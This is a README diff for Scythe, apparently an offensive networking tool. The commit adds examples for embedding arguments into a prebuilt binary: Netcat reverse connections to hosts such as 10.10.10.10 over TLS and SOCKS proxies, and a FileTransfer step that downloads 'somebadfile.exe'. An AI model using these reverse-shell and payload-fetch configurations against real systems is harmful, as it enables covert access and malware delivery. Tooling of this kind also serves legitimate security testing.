

Before and after one commit to BuildAndDestroy/Scythe, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
README: Update for Netcat and other flags

````diff
--- a/README.md
+++ b/README.md
@@ -46,7 +46,43 @@ PY
 ./scripts/build-embedded.sh "$JSON" ./Scythe.embedded
 ```
 
-**Manual `go build`:** take the same `JSON` variable as above, then base64 (no newlines) and link:
+**Network subcommands (Netcat, FileTransfer, Proxy):** same idea—embed the exact token list you would pass after `./Scythe` (addresses, ports, `-tls`, `-proxy`, etc.). Use Python whenever a value is awkward to quote in JSON.
+
+Helper script (inline JSON):
+
+```bash
+./scripts/build-embedded.sh '["Proxy","-port","9050"]' ./Scythe.embedded
+./scripts/build-embedded.sh '["Netcat","-reverse","-address","10.0.0.1","-port","4444","-tls"]' ./Scythe.embedded
+./scripts/build-embedded.sh '["FileTransfer","-listen","-port","8080","-filename","payload.bin","-tls"]' ./Scythe.embedded
+```
+
+One-liner (Netcat reverse with SOCKS5):
+
+```bash
+JSON=$(python3 -c 'import json; print(json.dumps(["Netcat","-reverse","-address","10.10.10.10","-port","8000","-proxy","127.0.0.1:9050","-tls"]))'
+./scripts/build-embedded.sh "$JSON" ./Scythe.embedded
+```
+
+Longer network argv (paths, hostnames, proxy): heredoc keeps flags readable:
+
+```bash
+JSON=$(python3 <<'PY'
+import json
+print(json.dumps([
+    "FileTransfer",
+    "-download",
+    "-filename", "somebadfile.exe",
+    "-hostname", "10.10.10.10",
+    "-port", "8080",
+    "-proxy", "172.17.0.2:1080",
+    "-tls",
+]))
+PY
+)
+./scripts/build-embedded.sh "$JSON" ./Scythe.embedded
+```
+
+**Manual `go build`:** take the same `JSON` variable as above (Http or network), then base64 (no newlines) and link:
 
 ```bash
 JSON=$(python3 -c 'import json; print(json.dumps(["Http","-url","https://example.com","-timeout","30s"]))')
````
